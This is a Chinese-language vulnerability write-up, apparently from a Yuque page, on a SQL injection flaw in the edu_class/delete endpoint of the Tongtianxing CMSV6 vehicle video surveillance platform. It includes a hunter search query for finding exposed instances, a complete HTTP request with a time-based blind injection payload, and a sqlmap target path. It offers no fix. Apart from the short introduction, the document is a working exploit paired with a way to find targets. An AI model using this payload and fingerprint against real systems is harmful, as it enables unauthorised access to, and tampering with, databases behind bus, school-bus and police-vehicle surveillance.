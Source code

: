 # 通天星CMSV6车载视频监控平台 edu_class/delete存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台edu_class/delete存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/ZfRbEUS-yZR57cAu/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-994080.png)

# 四、漏洞复现
```java
GET /edu_class/delete.do;downloadLogger.action?ids=1)+AND+(SELECT+5394+FROM+(SELECT(SLEEP(5)))tdpw)--+&loadAll=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=58586A7CBD64C381945F9AAACFDF7C40
Connection: close
Content-Length: 0
```

![1712849698475-ee1f69ae-46f8-4eda-ba76-646d4b41515c.png](./img/ZfRbEUS-yZR57cAu/1712849698475-ee1f69ae-46f8-4eda-ba76-646d4b41515c-605340.png)

sqlmap

```java
/edu_class/delete.do;downloadLogger.action?ids=1)&loadAll=1
```

![1712849859585-314f1ccf-6a3b-4b2e-9b37-c85b79daf608.png](./img/ZfRbEUS-yZR57cAu/1712849859585-314f1ccf-6a3b-4b2e-9b37-c85b79daf608-134757.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lliesn3xxqds6alt>